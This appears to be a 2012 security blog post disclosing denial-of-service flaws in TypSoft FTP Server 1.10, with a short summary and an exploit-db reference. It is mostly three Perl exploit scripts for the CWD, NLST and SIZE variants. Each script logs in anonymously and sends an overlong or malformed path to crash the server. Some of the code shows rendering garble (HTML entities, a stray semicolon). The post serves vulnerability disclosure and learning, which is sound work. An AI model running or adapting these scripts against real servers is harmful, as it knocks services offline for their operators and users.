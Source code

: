 ```yaml
---
layout: post
title: "TYPSoft FTP Multiple Command Denial-of-Service"
date: 2012-02-07
excerpt_separator: <!--more-->
---
```


During my introduction to exploit development I started work on a small FTP server, see what I can find. What I found is fairly interesting; couple commands resulted in a Denial-of-Service condition under Win 7 x32 and x64. At the time of my research I have been unable to shove some shell code, jump etc into the thing. Time past and I got busy, so it is might still be there.

TL;DR

* TypSoft FTP Server 1.10 (http://sourceforge.net/projects/ftpserv/)
* Requires valid login to exploit
* Affected commands: CWD, NLST, SIZE
* http://www.exploit-db.com/exploits/18469/
* OSVDB-ID: 80913
* Win 7 only
* Update: Recent Win 7 patches in around 2018 fixed the issues and DoS doesn't seems to work. Oops...
<!--more>

**CWD Variant**
{% highlight perl %}

#!/usr/bin/perl
# Exploit Title: Typsoft FTP Server DoS CWD command
# Date: 02/06/2012
# Author: Balazs Makany
# Software Link: http://sourceforge.net/projects/ftpserv/
# Version: 1.10
# Tested on: Windows 7
# (does not work on Windows XP)
#
# Please note, that you need to have a valid username/password 
# to execute the malformed command on the server. The server comes 
# with an enabled by default Anonymous account, which is used below.


use IO::Socket;

$user = "USER anonymous\r\n";
$passw = "PASS anonymous@127.0.0.1\r\n";
$command = "CWD ";
$dos_input = "."x250;
$send = "\r\n";
$socket = IO::Socket::INET-&gt;new(
Proto => "tcp",
PeerAddr => "$ARGV[0]",
PeerPort => "$ARGV[1]",
);

$socket->recv($serverdata, 1024);
print $serverdata;

$socket->send($user);
$socket->recv($serverdata, 1024);
$socket->send($passw);
$socket->recv($serverdata, 1024);
$socket->send($command.$dos_input.$send);

{% endhighlight %}

**NLST Variant**

{% highlight perl %}

#!/usr/bin/perl
# Exploit Title: Typsoft FTP Server DoS NLST command
# Date: 02/06/2012
# Author: Balazs Makany
# Software Link: http://sourceforge.net/projects/ftpserv/
# Version: 1.10
# Tested on: Windows 7 
# (does not work on Windows XP)
#
# Please note, that you need to have a valid username/password 
# to execute the malformed command on the server. The server comes 
# with an enabled by default Anonymous account, which is used below.


use IO::Socket;

$user = "USER anonymous\r\n";
$passw = "PASS anonymous@127.0.0.1\r\n";
$command = "NLST ";
$dos_input = "/.../.../.../.../.../";
$send = "\r\n";
$socket = IO::Socket::INET-&gt;new(
Proto =>; "tcp",
PeerAddr => "$ARGV[0]",
PeerPort => "$ARGV[1]",
);

$socket->recv($serverdata, 1024);
print $serverdata;

$socket->send($user);
$socket->recv($serverdata, 1024);
$socket->send($passw);
$socket->recv($serverdata, 1024);
$socket->send($command.$dos_input.$send);

{% endhighlight %}

**SIZE variant**

{% highlight perl %}

#!/usr/bin/perl
# Exploit Title: Typsoft FTP Server DoS SIZE command
# Date: 02/06/2012
# Author: Balazs Makany
# Software Link: http://sourceforge.net/projects/ftpserv/
# Version: 1.10
# Tested on: Windows 7
# (does not work on Windows XP)
#
# Please note, that you need to have a valid username/password 
# to execute the malformed command on the server. The server comes 
# with an enabled by default Anonymous account, which is used below.>


use IO::Socket;

$user = "USER anonymous\r\n";
$passw = "PASS anonymous@127.0.0.1\r\n";
$command = "SIZE ";
$dos_input = "/.../.../.../.../.../";
$send = "\r\n";
$socket = IO::Socket::INET-&gt;new(
Proto =&gt; "tcp",
PeerAddr =&gt; "$ARGV[0]",
PeerPort =&gt; "$ARGV[1]",
);

$socket-&gt;recv($serverdata, 1024);
print $serverdata;

$socket-&gt;send($user);
$socket-&gt;recv($serverdata, 1024);
$socket-&gt;send($passw);
$socket-&gt;recv($serverdata, 1024);
$socket-&gt;send($command.$dos_input.$send);

{% endhighlight %}
